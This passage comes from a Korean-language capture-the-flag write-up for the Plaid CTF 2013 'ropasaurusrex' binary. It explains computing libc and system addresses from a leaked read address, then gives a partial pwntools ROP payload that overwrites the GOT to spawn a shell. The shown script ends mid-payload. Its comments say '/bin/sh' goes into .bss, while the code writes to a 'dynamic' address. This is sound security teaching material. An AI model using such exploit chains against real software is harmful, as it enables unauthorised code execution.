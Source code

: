 ```
libc = read_addr - read_offset
system = libc + system_offset
```
<strong>위와 같이 read addr에서 read offset을 빼주면 libc의 시작 주소가 나올 것이고, libc에서 system offset 만큼 더해주면 system 함수의 시작 주소가 나올 것 입니다.</strong><br>

```
pocas@pocas-VirtualBox:~/pwn/Plaid CTF 2013$ objdump -h ropasaurusrex 

ropasaurusrex:     file format elf32-i386

Sections:
Idx Name          Size      VMA       LMA       File off  Algn
(생략)
 24 .bss          00000008  08049628  08049628  00000628  2**2
                  ALLOC
(생략)
```
<strong>마지막으로 objdump를 이용해서 `/bin/sh`을 저장할 bss 영역의 주소를 알아냈습니다</strong><br>


- 시나리오<br>

1. write 함수를 호출해서 read 주소를 릭한다. read 주소랑 read offset이랑 빼서 libc의 시작 주소를 구하고, libc의 시작 주소에 system offset을 더해서 system의 시작 주소를 구한다.<br>
2. read 함수를 호출해서 bss 영역에 `"/bin/sh"`을 넣어준다.
3. read 함수를 호출해서 read got의 system addr을 넣어준다.
4. read 함수를 호출하면 (3)에서 read got가 system addr로 덮였기 때문에 system 함수가 호출이 되고, 인자값으로는 bss를 넘겨준다. bss에는 `"/bin/sh"`가 들어있다.
<br>

```python
from pwn import *
from time import sleep

p = process("./ropasaurusrex")

read_plt = 0x0804832c
read_got = 0x0804961c
read_off = 0xe5620
write_plt = 0x0804830c
write_got = 0x08049614
pppr = 0x080484b6
dynamic = 0x08049530
system_off = 0x3ce10 

payload = "A" * (136 + 4) # buffer + sfp

# 시나리오 (1)
payload += p32(write_plt)
payload += p32(pppr)
payload += p32(1)
payload += p32(read_got)
payload += p32(4)

# 시나리오 (2)
payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
payload += p32(dynamic)
payload += p32(8)

# 시나리오 (3)
payload += p32(read_plt)
payload += p32(pppr)
payload += p32(0)
```